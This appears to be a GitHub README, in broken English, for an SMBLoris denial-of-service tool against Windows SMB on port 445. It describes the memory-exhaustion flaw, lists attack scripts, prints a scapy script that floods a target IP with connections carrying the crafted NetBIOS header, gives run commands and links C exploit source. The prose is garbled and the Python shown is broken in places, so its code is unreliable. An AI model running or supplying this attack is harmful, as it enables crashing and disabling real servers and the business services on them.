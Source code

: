 # what IS the Smb !! 
Me sharing files remotely by Protocol SMBv1 Or SMBv2 SMBv3 
-------------------------
vulnerable On Next in Text from i,am 
The vulnerability is in all modern versions of Windows, at least from Windows 2000 through Windows 10. Systems are still vulnerable even if all versions of SMBv1 SMBv2 SMBv3 are disabled

It is computationally inexpensive for an attacker to cause large memory allocations and enormous amounts of wasted CPU cycles†, rendering vulnerable machines completely unusable, making business-critical services (such as web and mail servers) unavailable, and even causing the entire operating system to crash !!
''''''''''
And Windows immediately commits in memory a number of bytes determined by the attacker-controlled Length field, which is 217 for a max of 131,072 bytes (128 KiB). This memory is in the "non-paged pool" (physical RAM) which cannot be swapped out to disk, making the denial of service even more effective. CPU and memory resources are effectively lost for as long as the connection is sustained

------------------------------------------------------------------------------------------------------||
------------------------------------------------------------------------------------------------------||

SMBLoris works over IPv4 and IPv6, and acquiring multiple IPs on a LAN can amplify the attack. The amount of machines required to perform a distributed denial of service (DDoS) attack against more powerful servers is also significantly reduced.


# But by me files
1 rest.sh 

2 run.sh  

3 smb3.py 

Works only on Kali version 2 #
Or
SMBLoris.c 

Normal Works on All systems Linux !! Redhat kali And And And And Etc!!

------------------------------------------------------------------------------------------------------||
------------------------------------------------------------------------------------------------------||

1 >_  Now we use smb3.py 

2 >_ Now we go to run rest.sh

![screenshot from 2017-08-09 19-19-12](https://user-images.githubusercontent.com/25440152/29142117-de3c8ec2-7d1e-11e7-8144-20261cf78916.png)
# Next >_ let's go To arrange
Edit Code file smb3.py 
```
from scapy.all import
import sys

    p0 = int(sys.argv[1])

    conf.L3socket
    conf.L3socket=L3RawSocket

    i = IP()
    i.dst = "192.168.1.4"
    t = TCP()
    t.dport = 445

    for p in range(p0, p0+700):
      print p
      t.sport = p
      t.flags = "S"

      r = sr1(i/t)
      rt = r[TCP]
      t.ack = rt.seq + 1
      t.seq = rt.ack
      t.flags = "A"
      sbss = '\x00\x01\xff\xff'
      send(i/t/sbss)

```
------------------------------------------------------------------------------------------------------||
------------------------------------------------------------------------------------------------------||

! >_  let's go To Run run.sh After we have arranged file smb3.py 


```
root@kali:~/Desktop# chmod +x run.sh

root@kali:~/Desktop#./run.sh
```

------------------------------------------------------------------------------------------------------||
------------------------------------------------------------------------------------------------------||
Now let's go To Run file SMBLoris.c
https://gist.github.com/jihadLkmaty218/72440aa47ec1852fd806efaf3752c52d

>_  After the download file let's go To Run
![screenshot from 2017-08-09 19-44-22](https://user-images.githubusercontent.com/25440152/29143202-50fe7d0a-7d22-11e7-9cda-7307c6cdb0a3.png)

------------------------------------------------------------------------------------------------------||
------------------------------------------------------------------------------------------------------||

![screenshot from 2017-08-09 19-44-48](https://user-images.githubusercontent.com/25440152/29143208-53a592dc-7d22-11e7-892e-b3a20fef0ce2.png)
